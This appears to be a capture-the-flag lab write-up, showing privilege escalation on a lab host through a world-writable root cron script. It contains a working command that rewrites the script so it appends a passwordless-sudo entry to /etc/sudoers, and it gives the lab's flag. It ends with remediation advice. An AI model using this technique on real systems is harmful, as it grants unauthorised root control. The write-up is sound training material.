# Cron Jobs Gone Wild II

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target:** target.ine.local (web shell on port 8000, user `student`)<br>
**Objective:** Get a root shell and retrieve the flag.<br>
**Flag:** `697914df7a07bb9b718c8ed258150164`

## 1. Executive Summary

We start with a low-privileged `student` shell. A root-owned `message` file can't be read,
but searching the filesystem reveals a helper script (`/usr/local/share/copy.sh`) that a
root cron job runs periodically — and the script is **world-writable**. By rewriting it to
append a passwordless-sudo entry for `student` to `/etc/sudoers`, the next cron run grants
us full sudo and a root shell.

## 2. Initial Access

An interactive `student` shell is exposed over the browser on port 8000.



Checking the current user and enumerating accounts in `/etc/passwd`.

```bash
whoami              # student
cat /etc/passwd
```



## 3. Enumeration

No user crontab, but the home directory holds a root-owned `message` file.

```bash
crontab -l          # no crontab for student
ls -al              # message  (root:root, 0600)
```



As expected, `student` can't read it.

```bash
cat message         # Permission denied
```



## 4. Finding the Writable Script

Searching the filesystem for references to the message path reveals a script that copies it
to `/tmp`.

```bash
grep -rnw /usr -e "home/student/message"
# /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
```



`/tmp/message` is readable but only contains a taunt — the script runs as root (via cron).

```bash
ls -al /tmp
cat /tmp/message    # Hey!! you are not root :(
```



Critically, `copy.sh` is **world-writable** (`-rwxrwxrwx`) though owned by root.

```bash
ls -al /usr/local/share/copy.sh
```



## 5. Exploitation

Overwriting `copy.sh` so that, when root's cron runs it, it grants `student` passwordless
sudo.

```bash
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
cat /usr/local/share/copy.sh
```



After the cron job runs, `student` has full sudo rights.

```bash
sudo -l
```



## 6. Root & Flag

```bash
sudo su
whoami              # root
```



```bash
cd /root
cat flag
# 697914df7a07bb9b718c8ed258150164
```



## 7. Remediation Recommendations

1. **Fix file permissions:** scripts executed by root cron must be writable only by root
   (`chmod 700`, `chown root:root`).
2. **Store cron scripts outside world-writable/shared paths** and validate their integrity.
3. **Protect `/etc/sudoers`** and monitor for unexpected modifications (auditd).
4. **Apply least privilege** — avoid root cron jobs that act on user-controlled files/paths.
